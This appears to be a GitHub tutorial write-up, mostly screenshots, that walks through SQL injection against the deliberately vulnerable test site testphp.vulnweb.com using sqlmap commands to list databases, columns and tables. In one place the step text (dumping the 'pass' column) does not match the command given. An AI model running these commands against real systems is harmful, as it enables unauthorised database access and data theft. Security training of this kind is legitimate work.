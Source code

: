![image](https://github.com/user-attachments/assets/a5345045-a1b2-43e3-8e66-3bf25e328491)

![image](https://github.com/user-attachments/assets/9cf9efb3-c86c-41a2-91a9-328191760fa5)

![image](https://github.com/user-attachments/assets/604a7f82-1248-4790-a447-d610428a1a0f)


# 2. Sql injection
SQL Injection is a critical security vulnerability that allows attackers to manipulate SQL queries by injecting malicious code into input fields, potentially leading to unauthorized access, data theft, or destruction of the database.
![image](https://github.com/user-attachments/assets/15ec2865-08b6-45b5-9040-0d5aded164d7)

we use payload in url and it shows sql error
![image](https://github.com/user-attachments/assets/3a5b5c1a-ddaf-49b6-bc5f-8dd2e4be2483)

![image](https://github.com/user-attachments/assets/ca73eda4-9ef8-40b8-8905-5d8e303efc3f)

- Step 2 : copy The given url.

        http://testphp.vulnweb.com/listproducts.php?cat=1
  <br> 
- Step 3 : open the kali linux terminal.
- Now write the given command for perform SQL injection.

- here -u refers for URL & --dbs for database.

        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs

![image](https://github.com/user-attachments/assets/3da4323e-77d5-4523-9bdf-5ba7c1a26246)

- Now you see that we got a two databases. first is acuart and second is information_schema.

- Now we go to the inner in acuart database.

- Step 4 : Now follow this commnd for find columns in acuart database.

        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --columns


![image](https://github.com/user-attachments/assets/76aa812d-5f24-43fb-b485-bc0e702c659d)

![image](https://github.com/user-attachments/assets/e671b246-b914-41ed-a008-055e9905e180)

![image](https://github.com/user-attachments/assets/b6c52111-9168-4915-bab8-b9f677de7f7b)

- Now you see we got columns of databases.

- step 5 : Retrieve data from the pass column using the following command.

        sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables
![image](https://github.com/user-attachments/assets/7dd547da-39aa-491d-934a-a02722d55e1b)
